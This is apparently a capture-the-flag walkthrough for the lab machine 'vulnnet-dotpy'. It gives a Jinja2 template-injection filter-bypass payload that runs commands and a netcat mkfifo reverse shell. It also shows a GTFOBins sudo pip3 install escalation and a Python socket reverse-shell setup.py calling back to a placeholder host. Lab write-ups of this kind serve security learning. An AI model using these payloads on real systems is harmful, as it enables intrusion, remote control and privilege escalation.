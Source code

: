 ```
    return self._get_source_fast(environment, template)

    File "/home/web/.local/lib/python3.6/site-packages/flask/templating.py", line 89, in _get_source_fast

    raise TemplateNotFound(template)
    ...
```

Looks like we are actually on a jinja2 framework and we get some debugging staments giving us some insight into the file system and files being used.
Lets switch our payload over to jinja2 payload that can bypass at least one of the filters we seem to have on '.', and see if we get the id of the user
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass
If you haven't already been using burpsuite to send these requests, switch over now as firefox will not give us the results we are looking for.

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
This works! Awesome so let's just take a normal reverse shell such as rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f, and then hex-encoded it with /x delimiters and try and replace the 'id' command with it. Sure enough we get a hit on our listener and we have a foothold

#Initial Foothold
Afer stabilizing our shell we are the web user and find out the following
```
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

From GTFOBins
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

So we can make a directory in tmp such as, /tmp/exploit and then place a setup.py file with our payload, so we make the following setup.py file in the /tmp/exploit directory
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
